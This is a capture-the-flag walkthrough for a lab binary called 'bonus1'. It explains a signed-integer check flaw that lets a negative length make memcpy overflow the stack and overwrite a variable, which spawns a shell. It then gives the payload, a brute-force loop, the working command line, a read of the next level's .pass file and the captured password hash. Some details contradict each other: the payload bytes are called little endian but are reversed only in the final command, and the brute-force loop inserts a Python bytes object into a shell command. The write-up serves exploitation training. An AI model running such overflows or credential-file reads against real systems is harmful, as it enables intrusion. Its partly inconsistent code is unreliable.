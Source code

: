 # Bonus 01 Walkthrough

## Binary analysis

The binary takes two arguments: a number and a string. It converts the first argument to an integer (n), checks if n > 9, and then copies n*4 bytes from argv[2] to a stack buffer using memcpy. If n equals 0x574f4c46 (the magic value 'FLOW'), it spawns a shell.

### Key decompiled code
```c
int n = atoi(argv[1]);
if (n > 9) return 1;
memcpy(&buffer, argv[2], n * 4);
if (n == 0x574f4c46) execl("/bin/sh", "sh", 0);
```

## Exploitation

- The check only prevents n > 9, but negative values are not handled. By passing a large negative value, we can copy more data than intended and overwrite the stack, including the variable n.
- We craft a payload that overwrites n with 0x574f4c46 ('FLOW').

Example payload (Python):
```python
payload = b"A"*40 + b"\x57\x4f\x4c\x46"  # 40 bytes padding, then 'FLOW' in little endian
print(payload)
```

Example brute-force command to find a working negative value:
```python
for i in range(-2147483648, 10):
    os.system(f"./bonus1/bonus1 {i} {payload} 2>/dev/null && echo OK for {i}")
```

Working exploit:
```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
```

## Commands used

```
./bonus1 -2147483635 "$(python -c 'print(b"A"*40 + b"\x57\x4f\x4c\x46"[::-1])')"
cat /home/user/bonus2/.pass
```

## Result

After running the exploit, we get a shell as bonus2 and can read the password:

```
cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

Copy the password for the next level. 